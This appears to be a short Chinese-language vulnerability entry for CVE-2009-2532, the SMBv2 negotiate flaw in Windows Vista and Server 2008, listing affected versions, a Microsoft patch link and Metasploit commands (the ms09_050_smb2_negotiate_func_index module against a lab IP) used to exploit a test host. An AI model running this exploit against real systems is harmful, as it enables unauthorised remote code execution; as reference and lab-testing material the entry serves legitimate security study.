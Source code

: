 ### CVE-2009-2532

#### 描述

Microsoft Windows Vista Gold, SP1, and SP2, Windows Server 2008 Gold and SP2, and Windows 7 RC do not properly process the command value in an SMB Multi-Protocol Negotiate Request packet, which allows remote attackers to execute arbitrary code via a crafted SMBv2 packet to the Server service, aka "SMBv2 Command Value Vulnerability."

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows Server 2008 | -       |        |         |        |
| Windows Server 2008 | -       | SP2    |         |        |
| Windows Server 2008 | -       | SP2    | Itanium |        |
| Windows Server 2008 | -       | SP2    | X64     |        |
| Windows Server 2008 | -       | SP2    | X86     |        |
| Windows Server 2008 |         |        | Itanium |        |
| Windows Server 2008 |         |        | X32     |        |
| Windows Server 2008 |         |        | X64     |        |
| Windows Vista       | -       | SP1    |         |        |
| Windows Vista       | -       | SP2    |         |        |
| Windows Vista       |         |        | X64     |        |
| Windows Vista       |         | SP1    | X64     |        |
| Windows Vista       |         | SP2    | X64     |        |
| Windows Vista       |         |        |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2009-2532
```

#### 利用方式

利用msf 测试系统windows server 2008 sp2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2009-2532_win2008_x86_msf.png?raw=true)